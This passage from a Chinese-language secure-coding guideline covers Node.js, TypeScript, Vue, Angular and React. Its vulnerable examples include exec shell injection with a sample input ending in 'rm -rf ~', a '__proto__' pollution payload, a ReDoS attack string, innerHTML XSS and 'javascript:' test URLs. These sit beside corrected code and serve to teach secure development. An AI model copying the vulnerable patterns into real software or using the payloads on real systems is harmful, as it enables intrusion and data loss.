// ❌ SCG-JS-001：exec 會透過 shell 執行字串；branch 輸入 "main; rm -rf ~" 即可執行任意命令
import { exec } from 'node:child_process';

export function checkout(branch: string): void {
  exec(`git checkout ${branch}`);
}
```

```typescript
// ✅ SCG-JS-001：execFile 以陣列傳參數、不經 shell；分支名稱以允許清單驗證；以 -- 結束選項
import { execFile } from 'node:child_process';
import { promisify } from 'node:util';

const run = promisify(execFile);
const BRANCH = /^[\w./-]{1,100}$/;

export async function checkout(branch: string): Promise<void> {
  if (!BRANCH.test(branch) || branch.startsWith('-') || branch.includes('..')) {
    throw new Error('不合法的分支名稱');
  }
  await run('git', ['checkout', '--', branch], { timeout: 30_000 });
}
```

```typescript
// ❌ SCG-JS-002：以 new Function 計算使用者輸入的公式，等同 eval
export function calc(formula: string): number {
  return new Function(`return (${formula});`)() as number;
}
```

```typescript
// ✅ SCG-JS-002：只支援固定的運算，以資料描述公式，不執行任何字串
type Op = 'add' | 'sub' | 'mul';
const OPS: Record<Op, (a: number, b: number) => number> = {
  add: (a, b) => a + b,
  sub: (a, b) => a - b,
  mul: (a, b) => a * b,
};

export function calc(op: string, a: number, b: number): number {
  if (!Object.hasOwn(OPS, op)) {
    throw new Error('不支援的運算');
  }
  return OPS[op as Op](a, b);
}
```

```typescript
// ✅ SCG-JS-003：解析後確認仍在基底目錄內
import path from 'node:path';
import { readFile } from 'node:fs/promises';

const BASE = path.resolve('/srv/app/public-docs');

export function resolveInside(base: string, userPath: string): string {
  const target = path.resolve(base, userPath);
  if (target !== base && !target.startsWith(base + path.sep)) {
    throw new Error('路徑超出允許範圍');
  }
  return target;
}

export async function readDoc(name: string): Promise<Buffer> {
  return readFile(resolveInside(BASE, name));
}
```

```typescript
// ❌ SCG-JS-003：只用 startsWith(base) 比對，"/srv/app/public-docs-secret/x" 也會通過；未解析 ../
import { readFile } from 'node:fs/promises';

export async function readDoc(name: string): Promise<Buffer> {
  const target = '/srv/app/public-docs/' + name;
  if (!target.startsWith('/srv/app/public-docs')) {
    throw new Error('denied');
  }
  return readFile(target);
}
```

#### 🔍 8.1 審查與驗證

- **自動檢查：** ESLint（附錄 B.3）的 `security/detect-child-process`、`security/detect-eval-with-expression`、`no-eval`、`no-new-func`、`no-implied-eval`、`security/detect-non-literal-fs-filename`；Semgrep `p/javascript`、`p/typescript`。附錄 F.2 記錄了本節 ❌ 範例的偵測結果。
- **人工審查問題：**
  1. `child_process` 的呼叫是否有 `shell: true`？Windows 上執行 `.bat`／`.cmd` 時 `spawn` 會隱含使用 shell（CVE-2024-27980 之後 Node.js 預設拒絕未設定 `shell` 的 `.bat` 呼叫）。
  2. 路徑比對是否在 `path.resolve` 之後，而且以 `base + path.sep` 比對？
- **AI 常見錯誤：** 以 `exec` 搭配樣板字串執行命令；以 `vm.runInNewContext` 當作「安全的 eval」；以 `path.join(base, input)` 後不做任何檢查。

### 8.2 原型污染與正規表示式阻斷服務

**原型污染（prototype pollution）**是 JavaScript 特有的弱點：把不可信的物件深度合併到另一個物件時，`{"__proto__": {"isAdmin": true}}` 會修改 `Object.prototype`，讓程式中**所有**物件都多出 `isAdmin` 屬性。它可以導致權限繞過，在 Node.js 中甚至可串成遠端程式執行。

**正規表示式阻斷服務（ReDoS）**發生在含有巢狀量詞（例如 `(a+)+`、`(\w+\s?)*`）的正規表示式遇到特製輸入時，回溯次數呈指數成長，一個請求就能讓 Node.js 的事件迴圈停擺數秒到數分鐘。由於 Node.js 是單執行緒，這會讓整個服務停止回應。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JS-004` | 必須 | 不得將不可信的物件深度合併、複製或以動態鍵值寫入一般物件；應先以 Schema 驗證（只允許預期的鍵），或使用 `Map`、`Object.create(null)`；動態鍵值必須排除 `__proto__`、`constructor`、`prototype` | 🤖 ESLint `security/detect-object-injection`（提示用）；🤖 Semgrep；🧪 以 `__proto__` 載荷測試 |
| `SCG-JS-005` | 必須 | 處理外部輸入的正規表示式不得含有可能造成指數回溯的結構（巢狀量詞、重疊的選擇分支）；必須先限制輸入長度；需要使用者自訂樣式時應使用線性時間的引擎（例如 `re2`） | 🤖 ESLint `regexp/no-super-linear-backtracking`、`security/detect-unsafe-regex`；🧪 以長輸入測試執行時間 |

```typescript
// ❌ SCG-JS-004：自行實作的深度合併會沿著 __proto__ 寫入 Object.prototype
export function merge(target: any, source: any): any {
  for (const key in source) {
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] = merge(target[key] ?? {}, source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
// merge({}, JSON.parse('{"__proto__":{"isAdmin":true}}'));  之後 ({} as any).isAdmin === true
```

```typescript
// ✅ SCG-JS-004：先以 Schema 驗證（只保留允許的鍵），再建立新物件；動態鍵值使用 Map
import { z } from 'zod';

const Preferences = z.strictObject({
  theme: z.enum(['light', 'dark']),
  pageSize: z.number().int().min(10).max(100),
  locale: z.enum(['zh-TW', 'en-US']),
});
export type Preferences = z.infer<typeof Preferences>;

export function updatePreferences(current: Preferences, patch: unknown): Preferences {
  const parsed = Preferences.partial().parse(patch);      // 多餘的鍵（包括 __proto__）會被拒絕
  return { ...current, ...parsed };
}

export function countByKey(items: { key: string }[]): Map<string, number> {
  const counts = new Map<string, number>();               // Map 沒有原型鏈的問題
  for (const { key } of items) {
    counts.set(key, (counts.get(key) ?? 0) + 1);
  }
  return counts;
}
```

```typescript
// ❌ SCG-JS-005：巢狀量詞。輸入 "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!" 會造成指數回溯
const EMAIL = /^([a-zA-Z0-9]+)*@example\.com$/;
export const isCompanyEmail = (s: string): boolean => EMAIL.test(s);
```

```typescript
// ✅ SCG-JS-005：先限制長度，再使用沒有巢狀量詞的樣式
const EMAIL = /^[\w.-]{1,64}@example\.com$/;
export function isCompanyEmail(s: string): boolean {
  return s.length <= 80 && EMAIL.test(s);
}
```

#### 🔍 8.2 審查與驗證

- **自動檢查：** ESLint `eslint-plugin-regexp` 的 `regexp/no-super-linear-backtracking`、`regexp/no-super-linear-move`；`eslint-plugin-security` 的 `security/detect-unsafe-regex`；Semgrep `javascript.lang.security.audit.prototype-pollution`；Node.js 可以 `--disable-proto=delete` 啟動，移除 `__proto__` 存取器以降低原型污染的影響。
- **人工審查問題：**
  1. 有沒有使用 `lodash.merge`、`_.set`、`defaultsDeep`、自行撰寫的 `deepMerge` 處理請求內容？（舊版 lodash 有多個原型污染 CVE。）
  2. 新增的正規表示式是否有巢狀量詞？輸入是否先限制長度？
- **AI 常見錯誤：** 自行撰寫 `deepMerge`；以 `obj[req.query.key] = value` 寫入物件；以 `(\w+\s?)*` 這類樣式驗證姓名或地址。

### 8.3 TypeScript 的型別不是驗證

TypeScript 的型別在編譯後會被完全移除。下列程式在編譯期完全正確，但執行時 `body.amount` 可能是字串、負數、`null`，甚至不存在：

```typescript
// ❌ SCG-JS-006：以型別斷言「相信」外部資料。編譯通過，但執行期沒有任何檢查
interface TransferRequest {
  toAccount: string;
  amount: number;
}

export function parseTransfer(raw: string): TransferRequest {
  return JSON.parse(raw) as TransferRequest;
}
```

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JS-006` | 必須 | 來自信任邊界外的資料（HTTP 請求、外部 API 回應、訊息佇列、`localStorage`、URL 參數、`postMessage`）必須以執行期 Schema（zod、valibot、Ajv 等）驗證後才轉成型別；不得以 `as` 型別斷言或 `any` 略過驗證 | 🤖 Semgrep 自訂規則 `scg-ts-unvalidated-cast`；🤖 typescript-eslint 型別感知規則 `no-unsafe-assignment`、`no-unsafe-member-access`；🧪 驗證測試 |
| `SCG-JS-007` | 應該 | TypeScript 專案應啟用 `strict`、`noUncheckedIndexedAccess`、`exactOptionalPropertyTypes`，外部資料的型別應為 `unknown` 而非 `any` | 🤖 `tsc --noEmit`；🤖 typescript-eslint `no-explicit-any` |

```typescript
// ✅ SCG-JS-006：以 zod 在執行期驗證，驗證通過才得到型別
import { z } from 'zod';

export const TransferRequest = z.strictObject({
  toAccount: z.string().regex(/^\d{12,14}$/),
  amount: z.number().positive().max(2_000_000).multipleOf(1),
  memo: z.string().max(50).optional(),
});
export type TransferRequest = z.infer<typeof TransferRequest>;

export function parseTransfer(raw: unknown): TransferRequest {
  return TransferRequest.parse(raw);                      // 不符合時拋出 ZodError，由錯誤處理回 400
}
```

```json
{
  "_comment": "✅ SCG-JS-007：tsconfig.json 的嚴格設定",
  "compilerOptions": {
    "strict": true,
    "noUncheckedIndexedAccess": true,
    "exactOptionalPropertyTypes": true,
    "noImplicitOverride": true,
    "noFallthroughCasesInSwitch": true,
    "useUnknownInCatchVariables": true
  }
}
```

#### 🔍 8.3 審查與驗證

- **自動檢查：** 附錄 B.1 的 Semgrep 規則 `scg-ts-unvalidated-cast` 找出 `JSON.parse(...) as T`、`(await res.json()) as T`；`tsc --noEmit`；typescript-eslint 的型別感知規則（`no-unsafe-*` 系列，需設定 `parserOptions.projectService`）會標出把 `any` 流進業務邏輯的地方。
- **TypeScript 7 的陷阱：** TypeScript 7.0（2026-07 發布，以 Go 重寫的編譯器）尚未提供 typescript-eslint 所需的程式化 API，typescript-eslint 會直接拒絕執行。官方建議以套件別名讓兩個版本並存：`"@typescript/native": "npm:typescript@^7.0.2"` 用於 `tsc`，`"typescript": "npm:@typescript/typescript6@^6.0.2"` 供 ESLint 使用（本指引的驗證環境即採此方式）。
- **人工審查問題：**
  1. 每個 API 端點、每個 `fetch` 回應的處理，是否都經過 Schema 驗證？
  2. 前後端共用型別時，後端是否仍以 Schema 驗證，而不是「因為前端也是 TypeScript 所以相信它」？
- **AI 常見錯誤：** `await res.json() as User`；`const body: any = req.body`；以 `// @ts-ignore` 略過型別錯誤。

### 8.4 Node.js 伺服器設定

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-JS-008` | 必須 | Node.js Web 伺服器必須限制請求本文大小、設定安全標頭（例如 Express 搭配 `helmet`）、移除 `X-Powered-By`、只在確實位於反向代理之後才設定 `trust proxy`，並以 `NODE_ENV=production` 執行以避免回傳堆疊追蹤 | 🧪 回應標頭與超大請求的測試；👁 設定審查 |
| `SCG-JS-009` | 可以 | 處理不可信檔案或執行第三方腳本的 Node.js 程式，可以使用 Node.js 權限模型（`--permission` 搭配 `--allow-fs-read`、`--allow-fs-write`）限制檔案系統、子程序與 Worker 的存取 | 🧪 存取未授權路徑時拋出 `ERR_ACCESS_DENIED` 的測試 |

```typescript
// ✅ SCG-JS-008：Express 5 的基本安全設定
import express, { type NextFunction, type Request, type Response } from 'express';
import helmet from 'helmet';

export const app = express();
app.disable('x-powered-by');
app.set('trust proxy', 1);                                  // 只信任前面那一層反向代理
app.use(helmet());                                          // CSP、HSTS、X-Content-Type-Options 等預設值
app.use(express.json({ limit: '100kb' }));
app.use(express.urlencoded({ extended: false, limit: '100kb' }));

app.use((err: unknown, _req: Request, res: Response, _next: NextFunction) => {
  console.error(err);                                       // 詳細內容只寫入伺服器日誌（見第 14 章）
  res.status(500).json({ type: 'about:blank', title: 'Internal Server Error', status: 500 });
});
```

```bash
# ✅ SCG-JS-009：以權限模型執行處理上傳檔案的工作程式，只允許讀取上傳目錄、寫入輸出目錄
node --permission \
     --allow-fs-read=/srv/uploads/ \
     --allow-fs-write=/srv/thumbnails/ \
     dist/thumbnail-worker.js
```

#### 🔍 8.4 審查與驗證

- **自動檢查：** 以 `curl -I` 確認回應包含 `Content-Security-Policy`、`Strict-Transport-Security`、`X-Content-Type-Options` 且沒有 `X-Powered-By`；送出 1 MB 的 JSON 確認回 413。
- **人工審查問題：**
  1. `trust proxy` 設為 `true` 會信任任意多層的 `X-Forwarded-For`，讓攻擊者偽造來源 IP 繞過速率限制。
  2. 錯誤處理中介軟體是否把 `err.stack` 或 `err.message` 回傳給用戶端？
- **AI 常見錯誤：** `app.set('trust proxy', true)`；`express.json()` 未設定 `limit`（預設 100kb，但常被 AI 改成 `'50mb'` 以「解決」413 錯誤）；錯誤處理回傳 `res.status(500).send(err.stack)`。

## 9. 前端框架與瀏覽器安全

跨站腳本（XSS）連續多年是 CWE Top 25 的第一名。現代前端框架（Vue、Angular、React）預設會對文字插值做 HTML 編碼，已經消除了大部分的 XSS；剩下的 XSS 幾乎都來自**開發者主動繞過**框架保護的地方：`v-html`、`[innerHTML]`、`bypassSecurityTrustHtml`、`dangerouslySetInnerHTML`、直接操作 DOM，以及框架不處理的 URL 與樣式。本章先說明所有框架共通的瀏覽器安全機制，再分別說明各框架的「逃生門」該如何安全使用。



### 9.1 HTML 與瀏覽器安全機制

**內容安全政策（CSP）**告訴瀏覽器哪些腳本可以執行。即使攻擊者成功注入 `<script>`，嚴格的 CSP 也會阻止它執行。有效的 CSP 必須是**嚴格 CSP**：以 nonce 或 hash 允許特定腳本，而不是以網域清單允許（網域清單常因允許了 CDN 而被繞過）。v2.0 範例中的 `script-src 'self' 'unsafe-inline'` 等於沒有 CSP。

**Trusted Types** 讓瀏覽器在 `innerHTML`、`eval`、`script.src` 等危險的 DOM 寫入點，只接受經過指定政策處理的值，把 DOM 型 XSS 從「需要在整個程式碼中找出每一個寫入點」變成「只需要審查少數幾個政策」。Firefox 在 2026-02 支援 Trusted Types 後，它已成為所有主要瀏覽器都支援的 Baseline 功能。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-FE-001` | 必須 | 網頁必須以 HTTP 回應標頭設定嚴格的 CSP：`script-src` 使用 nonce（伺服器端產生的頁面）或 hash／`'self'`（靜態單頁應用），並設定 `object-src 'none'`、`base-uri 'none'`（或 `'self'`）、`frame-ancestors`；不得使用 `'unsafe-inline'`、`'unsafe-eval'` 或 `*` 允許腳本 | 🤖 Google CSP Evaluator；🤖 ZAP `10055`；🧪 回應標頭測試 |
| `SCG-FE-002` | 應該 | 應啟用 Trusted Types（`require-trusted-types-for 'script'`），並把 HTML 清理集中在少數幾個 Trusted Types 政策中；導入初期可先以 `Content-Security-Policy-Report-Only` 收集違規 | 🤖 瀏覽器 CSP 違規報告；🧪 E2E 測試 |
| `SCG-FE-003` | 必須 | 不得把不可信的資料寫入 `innerHTML`、`outerHTML`、`insertAdjacentHTML`、`document.write`、`srcdoc`；顯示文字使用 `textContent`，必須顯示 HTML 時以 DOMPurify 清理 | 🤖 ESLint `no-unsanitized/property`、`no-unsanitized/method` |
| `SCG-FE-004` | 必須 | 以不可信資料設定 `href`、`src`、`action`、`formaction` 等 URL 屬性時，必須以 `URL` 解析並確認通訊協定為 `https:`（或 `http:`、`mailto:` 等明確允許的值），拒絕 `javascript:`、`data:`、`vbscript:` | 🧪 以 `javascript:alert(1)`、`JaVaScRiPt:`、`\tjavascript:` 測試 |
| `SCG-FE-005` | 必須 | 從第三方 CDN 載入的腳本與樣式必須加上子資源完整性（`integrity`）與 `crossorigin`；嵌入不可信內容的 `iframe` 必須設定 `sandbox`；以 `window.open` 開啟外部網址時必須使用 `noopener` | 🤖 html-validate；👁 程式碼審查 |
| `SCG-FE-006` | 必須 | 使用 `postMessage` 時，傳送端必須指定明確的 `targetOrigin`（不得為 `*`），接收端必須檢查 `event.origin` 是否在允許清單中，並驗證訊息內容 | 🤖 Semgrep `javascript.browser.security.wildcard-postmessage-configuration`；👁 程式碼審查 |
| `SCG-FE-007` | 必須 | 前端程式碼中沒有秘密：任何打包到瀏覽器的值（包括 `VITE_*`、`NEXT_PUBLIC_*`、`NG_APP_*` 環境變數）都是公開的，不得放入 API 金鑰、用戶端密鑰或內部系統位址；需要秘密的呼叫必須經由後端（BFF）代理 | 🤖 Gitleaks 掃描建置產出（`dist/`）；👁 程式碼審查 |

```java
// ✅ SCG-FE-001：Spring Security 設定靜態單頁應用的嚴格 CSP；腳本與樣式只能來自同源檔案
package com.example.scg.fe;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.annotation.Order;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.web.SecurityFilterChain;
import org.springframework.security.web.header.writers.ReferrerPolicyHeaderWriter.ReferrerPolicy;

@Configuration
public class SpaHeadersConfig {

    static final String CSP = String.join("; ",
            "default-src 'self'",
            "script-src 'self'",
            "style-src 'self'",
            "img-src 'self' data: https://cdn.example.com",
            "connect-src 'self' https://api.example.com",
            "object-src 'none'",
            "base-uri 'self'",
            "frame-ancestors 'none'",
            "form-action 'self'",
            "require-trusted-types-for 'script'",
            "trusted-types dompurify",
            "upgrade-insecure-requests");

    @Bean
    @Order(20)
    SecurityFilterChain spa(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/app/**")
            .authorizeHttpRequests(auth -> auth.anyRequest().permitAll())
            .headers(h -> h
                .contentSecurityPolicy(csp -> csp.policyDirectives(CSP))
                .referrerPolicy(r -> r.policy(ReferrerPolicy.STRICT_ORIGIN_WHEN_CROSS_ORIGIN))
                .httpStrictTransportSecurity(hsts -> hsts.includeSubDomains(true).maxAgeInSeconds(31_536_000)));
        return http.build();
    }
}
```

```html
<!-- ❌ SCG-FE-001：v2.0 曾使用的 CSP。'unsafe-inline' 讓任何注入的 <script> 與 onerror 屬性都能執行 -->
<meta http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:;">
```

```text
✅ SCG-FE-001：伺服器端產生頁面（每個回應產生新的 nonce）的嚴格 CSP，'strict-dynamic' 讓已信任的腳本可以再載入其他腳本
Content-Security-Policy: script-src 'nonce-rAnd0m4ndUn1qu3' 'strict-dynamic'; object-src 'none'; base-uri 'none';
                         frame-ancestors 'self'; require-trusted-types-for 'script'
```

```javascript
// ✅ SCG-FE-002、SCG-FE-003：集中建立一個 Trusted Types 政策，所有 HTML 都必須經由 DOMPurify 清理
import DOMPurify from 'dompurify';

const policy = window.trustedTypes
  ? window.trustedTypes.createPolicy('dompurify', {
      createHTML: (dirty) => DOMPurify.sanitize(dirty, { USE_PROFILES: { html: true } }),
    })
  : { createHTML: (dirty) => DOMPurify.sanitize(dirty, { USE_PROFILES: { html: true } }) };

export function renderAnnouncement(el, untrustedHtml) {
  el.innerHTML = policy.createHTML(untrustedHtml);
}

export function renderUserName(el, name) {
  el.textContent = name;                                   // 純文字永遠用 textContent
}
```

```javascript
// ❌ SCG-FE-003：把 API 回應直接寫入 innerHTML
export function renderComment(el, comment) {
  el.innerHTML = `<p class="author">${comment.author}</p><div>${comment.body}</div>`;
}
```

```typescript
// ✅ SCG-FE-004：所有框架共用的 URL 檢查函式；不合法的網址以 about:blank 取代
const ALLOWED_PROTOCOLS = new Set(['https:', 'http:', 'mailto:']);

export function safeUrl(input: string | null | undefined, base = 'https://portal.example.com'): string {
  if (!input) {
    return 'about:blank';
  }
  try {
    const url = new URL(input, base);                      // URL 解析會移除前後空白與 Tab、換行，並把協定轉為小寫
    return ALLOWED_PROTOCOLS.has(url.protocol) ? url.href : 'about:blank';
  } catch {
    return 'about:blank';
  }
}
```

```html
<!-- ✅ SCG-FE-005：第三方腳本加上 SRI；嵌入外部內容的 iframe 設定 sandbox；外部連結使用 noopener -->
<script src="https://cdn.jsdelivr.net/npm/dompurify@3.4.16/dist/purify.min.js"
        integrity="sha384-a7SzOxErzJ3ZpQz0zJ32d67dSitNzPcbfybc/ykU9KJhMgZkwqfSxlhhdJRS+XGL" crossorigin="anonymous"></script>
<iframe src="https://partner.example.net/widget" title="合作夥伴小工具"
        sandbox="allow-scripts allow-forms" referrerpolicy="no-referrer"></iframe>
<a href="https://partner.example.net" target="_blank" rel="noopener noreferrer">前往合作夥伴網站</a>
```

```typescript
// ✅ SCG-FE-006：postMessage 指定目標來源；接收端檢查來源並驗證內容
const PARENT_ORIGIN = 'https://portal.example.com';

export function notifyParent(height: number): void {
  window.parent.postMessage({ type: 'resize', height }, PARENT_ORIGIN);
}

export function listen(onResize: (h: number) => void): void {
  window.addEventListener('message', (event: MessageEvent<unknown>) => {
    if (event.origin !== PARENT_ORIGIN) {
      return;
    }
    const data = event.data as { type?: unknown; height?: unknown };
    if (data?.type === 'resize' && typeof data.height === 'number' && data.height > 0 && data.height < 5000) {
      onResize(data.height);
    }
  });
}
```

```typescript
// ❌ SCG-FE-006：傳送給任何來源，且接收端不檢查來源
window.parent.postMessage({ token: sessionToken }, '*');
window.addEventListener('message', (e) => {
  document.getElementById('banner')!.innerHTML = e.data.html;
});
```

```bash
# ❌ SCG-FE-007：把伺服器端金鑰放在前端環境變數。Vite 會把 VITE_ 開頭的變數原樣打包進 JavaScript
VITE_PAYMENT_SECRET_KEY=pay_live_<秘密>
# ✅ SCG-FE-007：前端只放公開的設定；需要秘密的呼叫由後端代理
VITE_API_BASE_URL=https://portal.example.com/bff
```

#### 🔍 9.1 審查與驗證

- **自動檢查：** 以 [CSP Evaluator](https://csp-evaluator.withgoogle.com/) 檢查政策；ZAP 被動掃描 `10038`（缺少 CSP）、`10055`（CSP 設定不當）；ESLint `no-unsanitized`（附錄 B.3）；`gitleaks dir dist/` 掃描建置產出；html-validate 檢查 `iframe` 與外部腳本屬性。
- **人工審查問題：**
  1. CSP 是以 HTTP 標頭還是 `<meta>` 設定？（`frame-ancestors` 與 `report-to` 在 `<meta>` 中無效。）
  2. CSP 中是否有 `'unsafe-inline'`、`'unsafe-eval'`、`https:`、`*` 出現在 `script-src`？
  3. 所有 `href` 綁定的值是否可能來自使用者（例如個人網站欄位、訊息中的連結）？
- **AI 常見錯誤：** 為了讓頁面「正常運作」而在 CSP 加上 `'unsafe-inline'`；以 `innerHTML` 組合樣板字串；以 `href.startsWith('http')` 檢查 URL（`httpjavascript:` 雖不會執行，但 `http` 開頭檢查無法處理相對路徑與大小寫，應以 `URL` 解析）；把 API 金鑰放在 `VITE_*` 變數。

### 9.2 Vue

Vue 對 `{{ }}` 文字插值與 `:attr` 屬性綁定的值自動做 HTML 編碼。官方文件的 [Security](https://vuejs.org/guide/best-practices/security.html) 章節明確指出 Vue **無法**保護的情境：`v-html`、URL、樣式，以及使用不可信內容作為樣板。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-FE-008` | 必須 | `v-html` 只能輸出經 DOMPurify 清理的內容，或完全由開發者控制的靜態內容；不得在 `v-html` 中直接放入 API 回應或使用者輸入 | 🤖 ESLint `vue/no-v-html`（列為警告，逐一審查）；🧪 XSS 測試 |
| `SCG-FE-009` | 必須 | 不得把不可信的內容當作 Vue 樣板（包括執行期編譯 `template` 字串、在掛載點的 DOM 中放入伺服器端輸出的使用者內容）；綁定到 `:href`、`:src` 的使用者資料必須經過 `SCG-FE-004` 的 URL 檢查；`:style` 只能綁定特定屬性，不得綁定整個使用者提供的樣式字串 | 🤖 ESLint；👁 程式碼審查 |

```vue
<!-- ❌ SCG-FE-008、SCG-FE-009：v-html 直接輸出 API 回應；:href 直接綁定使用者輸入的網址 -->
<script setup lang="ts">
defineProps<{ comment: { body: string; website: string } }>();
</script>

<template>
  <div v-html="comment.body"></div>
  <a :href="comment.website">作者網站</a>
</template>
```

```vue
<!-- ✅ SCG-FE-008、SCG-FE-009：HTML 先清理；URL 檢查通訊協定；樣式只綁定特定屬性與允許清單中的值 -->
<script setup lang="ts">
import { computed } from 'vue';
import DOMPurify from 'dompurify';
import { safeUrl } from '@/security/safeUrl';

const props = defineProps<{ comment: { body: string; website: string; color: string } }>();

const COLORS: Record<string, string> = { blue: '#1d4ed8', green: '#15803d', gray: '#4b5563' };

const safeBody = computed(() => DOMPurify.sanitize(props.comment.body, { USE_PROFILES: { html: true } }));
const safeWebsite = computed(() => safeUrl(props.comment.website));
const nameColor = computed(() => COLORS[props.comment.color] ?? COLORS.gray);
</script>

<template>
  <!-- eslint-disable-next-line vue/no-v-html -- 內容已由 DOMPurify 清理（SCG-FE-008） -->
  <div v-html="safeBody"></div>
  <a :href="safeWebsite" rel="noopener noreferrer" target="_blank">作者網站</a>
  <span :style="{ color: nameColor }">作者</span>
</template>
```

#### 🔍 9.2 審查與驗證

- **自動檢查：** ESLint `eslint-plugin-vue` 的 `vue/no-v-html`（附錄 B.3 設為 `warn`，每一個 `eslint-disable` 都必須附上理由）；`git grep -n "v-html"` 盤點所有使用處。
- **人工審查問題：**
  1. 每個 `v-html` 的資料來源是什麼？是否經過 DOMPurify？
  2. 有沒有使用含編譯器的 Vue 版本（`vue/dist/vue.esm-bundler.js`）在執行期編譯字串樣板？
  3. 伺服器端渲染（Nuxt、Vue SSR）的頁面，是否把使用者內容放在 Vue 的掛載點內，被 Vue 當作樣板解析？
- **AI 常見錯誤：** 為了顯示富文字直接使用 `v-html`；`:href="user.url"` 不做檢查；以 `:style="userStyle"` 綁定整個樣式字串。

### 9.3 Angular

Angular 預設把所有綁定值視為不可信，並依情境（HTML、樣式、URL、資源 URL）自動清理或編碼。Angular 也內建 CSP nonce、Trusted Types 與 XSRF 支援，是三個框架中預設防護最完整的。風險集中在開發者以 `bypassSecurityTrust*` 關閉清理，或繞過 Angular 直接操作 DOM。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-FE-010` | 必須 | 不得對不可信的資料呼叫 `DomSanitizer.bypassSecurityTrustHtml`、`bypassSecurityTrustUrl`、`bypassSecurityTrustResourceUrl`、`bypassSecurityTrustScript`、`bypassSecurityTrustStyle`；不得以 `ElementRef.nativeElement.innerHTML` 或 `Renderer2.setProperty(el, 'innerHTML', …)` 繞過 Angular 的清理 | 🤖 Semgrep `typescript.angular.security.audit.angular-domsanitizer` 或自訂規則 `scg-angular-bypass-trust`；👁 程式碼審查 |
| `SCG-FE-011` | 必須 | Angular 應用程式必須設定 CSP（以 `ngCspNonce`／`CSP_NONCE` 提供 nonce，或以 `security.autoCsp` 產生 hash），並啟用 Trusted Types（`trusted-types angular angular#bundler`）；必須保持 Angular 在受支援的版本並及時套用安全修補 | 🤖 回應標頭檢查；🤖 `npm audit`／OSV-Scanner |

```typescript
// ❌ SCG-FE-010：以 bypassSecurityTrustHtml 關閉 Angular 的清理，API 回應中的  會被執行
import { Component, inject, input } from '@angular/core';
import { DomSanitizer, type SafeHtml } from '@angular/platform-browser';

@Component({
  selector: 'app-comment-bad',
  template: `<div [innerHTML]="trusted"></div>`,
})
export class CommentBadComponent {
  private readonly sanitizer = inject(DomSanitizer);
  readonly body = input.required<string>();
  get trusted(): SafeHtml {
    return this.sanitizer.bypassSecurityTrustHtml(this.body());
  }
}
```

```typescript
// ✅ SCG-FE-010：直接綁定 [innerHTML]，Angular 會自動清理危險標籤與屬性；純文字使用 {{ }}
import { Component, input } from '@angular/core';

@Component({
  selector: 'app-comment',
  template: `
    <p class="author">{{ author() }}</p>
    <div [innerHTML]="body()"></div>
    <a [href]="website()" target="_blank" rel="noopener noreferrer">作者網站</a>
  `,
})
export class CommentComponent {
  readonly author = input.required<string>();
  readonly body = input.required<string>();      // Angular 會移除 <script>、onerror 等
  readonly website = input.required<string>();   // Angular 會把 javascript: URL 改為 unsafe:javascript:
}
```

```json
{
  "_comment": "✅ SCG-FE-011：angular.json 片段。靜態部署時以 autoCsp 為行內腳本產生 hash；v22 起 SSR 應設定 allowedHosts",
  "projects": {
    "portal": {
      "architect": {
        "build": {
          "options": {
            "security": {
              "autoCsp": true,
              "allowedHosts": ["portal.example.com"]
            }
          }
        }
      }
    }
  }
}
```

```text
✅ SCG-FE-011：Angular 應用程式的回應標頭（搭配 autoCsp 產生的 hash 或伺服器端的 nonce）
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-{每次回應產生}'; style-src 'self' 'nonce-{同上}';
                         object-src 'none'; base-uri 'self'; frame-ancestors 'none';
                         require-trusted-types-for 'script'; trusted-types angular angular#bundler
```

#### 🔍 9.3 審查與驗證

- **自動檢查：** `git grep -nE "bypassSecurityTrust|nativeElement\.innerHTML|setProperty\([^)]*innerHTML"` 盤點；Semgrep `p/typescript` 的 Angular 規則；瀏覽器主控台在開發時出現的 `WARNING: sanitizing HTML stripped some content` 代表有內容被清理，應確認是否預期。
- **人工審查問題：**
  1. 每一處 `bypassSecurityTrust*` 的輸入是否完全由開發者控制（例如固定的 SVG 圖示）？
  2. Angular 的版本是否仍在支援期？是否已套用最近的安全修補？
- **AI 常見錯誤：** 看到 `WARNING: sanitizing HTML stripped some content` 就加上 `bypassSecurityTrustHtml`；以 `bypassSecurityTrustResourceUrl` 讓使用者指定的網址可以放進 `iframe`。

### 9.4 React

React 對 JSX 中的 `{value}` 自動編碼。從 React 19 起，`href` 等屬性中的 `javascript:` URL 會被替換為拋出錯誤的網址而不會執行（React 16.9 起只有警告）。風險集中在 `dangerouslySetInnerHTML`、直接操作 DOM，以及 React Server Components（RSC）與 Server Functions 的伺服器端邏輯。

**React Server Components 的教訓：** 2025-12 揭露的 CVE-2025-55182（CVSS 10.0，被稱為 React2Shell）是 RSC 傳輸協定的不安全反序列化弱點，影響 `react-server-dom-webpack`、`react-server-dom-parcel`、`react-server-dom-turbopack` 的 19.0、19.1.0、19.1.1、19.2.0 版，未經驗證的攻擊者可在伺服器上執行任意程式碼，即使應用程式沒有自行定義 Server Function 也受影響；修補版本為 19.0.1、19.1.2、19.2.1。之後又陸續揭露 CVE-2025-55183（原始碼外洩）、CVE-2025-55184 與 CVE-2025-67779（阻斷服務）、CVE-2026-23864（阻斷服務）。這說明了**使用 RSC 的前端專案就是伺服器端專案**，必須適用後端的修補時限與安全要求。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
